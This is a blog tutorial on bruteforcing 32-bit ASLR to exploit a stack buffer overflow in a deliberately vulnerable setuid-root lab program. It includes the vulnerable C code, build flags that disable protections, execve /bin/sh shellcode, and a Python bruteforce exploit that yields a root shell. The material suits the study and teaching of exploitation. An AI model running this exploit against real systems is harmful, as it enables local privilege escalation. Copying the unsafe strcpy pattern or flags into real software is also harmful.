 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (2) --- Shellcode + ASLR Bruteforcing
comments: true
---
```


Hi! For my second article on exploiting simple buffer overflow, I want to talk about bruteforcing against ASLR (Address Space Layout Randomization). For those who are not so familiar with ASLR, it is a common countermeasure technique against traditional stack-based stack buffer overflow exploit--- it randomizes the memory address layout (e.g. stack) every time a program is run so that an attacker cannot know the exact location of shellcode/variable/etc beforehand.
It is enabled by default for most recent operation systems, and it is fairly effective for 64-bit systems (the range of randomization of address layout is 28-bit). However, for 32-bit systems, the range of randomization of address layout is so much smaller that bruteforcing is feasible.  
So, in this article, I will demonstrate a bruteforce against ASLR in 32-bit system, so that an arbitrary shellcode can be run. Note that other countermeasure techniques (e.g. DEP, Canary) are not used for the sake of simplicity in this experiment. (I promise that I will post about attacks against these techniques in the future!) Also, source code used in this article can be downloaded from [here](https://github.com/taishi8117/bof_lab/tree/master/bof).  

-------------------

I will use Ubuntu 14.04 32-bit for this experiment.  

```
canopus@canopus:~/bof_lab/bof|master
⇒  uname -a
Linux canopus 3.16.0-50-generic #67~14.04.1-Ubuntu SMP Fri Oct 2 22:08:53 UTC 2015 i686 i686 i686 GNU/Linux
canopus@canopus:~/bof_lab/bof|master
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
canopus@canopus:~/bof_lab/bof|master
⇒  gcc --version
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

And here is a simple vulnerable program that I will use. As you can see, `vuln()` function has a buffer overflow vulnerability when `strcpy` is called.  

```C
#include    <stdio.h>
#include    <stdlib.h>
#include    <assert.h>
#include	<string.h>


void vuln (const char* arg){
	char buffer[100];
	strcpy(buffer, arg);
	printf("Hello %s\n", buffer);
	printf("[+] buffer @ %p\n", buffer);
}

int main (int argc, char **argv){
	
	if (argc != 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}
	vuln(argv[1]);
		return 0;
}
```

And for Makefile, make sure that `-fno-stack-protector` and `-z execstack` are included in the flags.  

```
CC=gcc
CFLAGS=-std=c99 -Wall -fno-stack-protector -z execstack

all: bof

bof: bof.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

bof.o: bof.c

clean:
	rm bof.o bof
```

After it was compiled, make sure that ASLR is turned on. Note that `echo 1 | sudo tee /proc/sys/kernel/randomize_va_space` can turn on ASLR. (`echo 0` to disable, `echo 2` to enable full ASLR)  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
1
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```


Okay, let's check how ASLR affects the address of buffer.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfe9a8fc
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbfb43e4c
canopus@canopus:~/bof_lab/bof|master⚡
⇒  ./bof AAAA
Hello AAAA
[+] buffer @ 0xbf8c941c
```

As you can see, the location of `buffer` is randomized every time the program is run, and it is impossible to guess its exact location for the next execution. However, if you examine the location of buffer repeatedly, you will realize that its location is within the range of `0xbf*****c`. In this case, there are 1048576 possible locations where buffer is loaded.  

Let's also examine how the program behaves when its buffer is overflowed.  

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Starting program: /home/canopus/bof_lab/bof/bof 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
[+] buffer @ 0xbf991ccc

Program received signal SIGSEGV, Segmentation fault.
(...)

gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 112		(<== offset: 112)
EBP+0 found at offset: 108
(...)

gdb-peda$ p $eip
$1 = (void (*)()) 0x41384141
```

As you can see, 4 bytes starting from 112th character in the input string will overwrite EIP.   

Now, we have everything that's needed to exploit this program. 


Let's also write a shellcode that executes '/bin/sh' so you can get a shell. I will not explain the details of how to write shellcode, but there are lots of resources on the web that you can find very useful.  

```nasm
global _start

section .text

_start:
	xor eax, eax
	push eax

	push 0x68732f2f		;//sh
	push 0x6e69622f		;/bin
	mov ebx, esp		;moving the pointer to "/bin//sh" to ebx

	push eax			;push 0 (=eax)
	mov edx, esp		;moving 0 to edx

	push ebx
	mov ecx, esp		;moving the pointer to "/bin//sh" to ecx

	mov al, 11
	int 0x80			;execv syscall
```

This assembly code is assembled and converted to string as shown in the script below (stored in shellcode variable).

```Python
#!/usr/bin/python

import struct, sys, time
from subprocess import PIPE, Popen

# exec /bin/sh
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

bufsize = 100
offset = 12     #incl. saved ebp
nopsize = 4096

def prep_buffer(addr_buffer):
    buf = "A" * (bufsize+offset)
    buf += struct.pack("<I",(addr_buffer+bufsize+offset+4))
    buf += "\x90" * nopsize
    buf += shellcode
    return buf

def brute_aslr(buf):
    p = Popen(['./bof', buf]).wait()

if __name__ == '__main__':
    addr_buffer = 0xbf92b39c    # randomly decided
    buf = prep_buffer(addr_buffer)
    i = 0
    while True:
        print i
        brute_aslr(buf)
        i += 1
```

```
canopus@canopus:~/bof_lab/bof|master⚡
⇒  python exploit.py
(...)
(...)

[+] buffer @ 0xbfc2bc0c
996
(... snippet)

[+] buffer @ 0xbfb9930c
997
(... snippet)

[+] buffer @ 0xbf92721c
998
(... snippet)

[+] buffer @ 0xbf92a26c
# whoami
root
```
